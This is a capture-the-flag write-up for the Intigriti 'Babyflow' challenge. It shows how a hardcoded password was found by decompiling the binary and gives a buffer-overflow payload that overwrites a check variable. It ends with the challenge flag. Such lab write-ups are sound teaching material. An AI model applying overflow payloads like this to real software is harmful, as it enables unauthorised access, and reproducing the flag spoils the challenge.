



## **Challenge Name: Babyflow**

### **Solves**
- **Solves**: 438  
- **Points**: 50

### **Description**
Does this login application even work?!  

**Attachment**: [babyflow](Resources/babyflow)  
**Connection**: `nc babyflow.ctf.intigriti.io 1331`  

---

### **Approach**

1. **Analyzing the File Type**:
   - We started by identifying the file type of the provided `babyflow` binary:
     ```bash
     file babyflow
     ```
   - The result indicated that it is an **x64 ELF Executable**.

2. **Executing the Binary**:
   - After giving the necessary file permissions using `chmod`:
     ```bash
     chmod +x babyflow
     ./babyflow
     ```
   - The binary prompted us to **enter a password**.

         

3. **Decompiling the ELF File**:
   - Using a decompiler (e.g., `Ghidra` or `IDA`), we analyzed the binary and discovered the hardcoded password:  
     ```
     SuPeRsEcUrEPaSsWoRd123
     ```

        
   - However, the issue was with the variable `local_c`, which was initialized to `0`. As long as `local_c` remains `0`, the program refuses to reveal the flag.

        

4. **Exploiting the Buffer Overflow**:
   - Observing the code, we found that the `local_c` variable was located near the memory segment for the **password input**.
   - We crafted a payload to overflow the buffer and overwrite `local_c` with non-zero values (`\x01`).

   **Payload**:  
   ```plaintext
   SuPeRsEcUrEPaSsWoRd123AAAAAAAAAAAAAAAAAAAAAA\x01\x01\x01\x01
   ```

5. **Getting the Flag**:
   - Running the binary with the payload revealed the flag:
     ```
     INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}
     ```

        
---

### **Flag**
```
INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}
```

---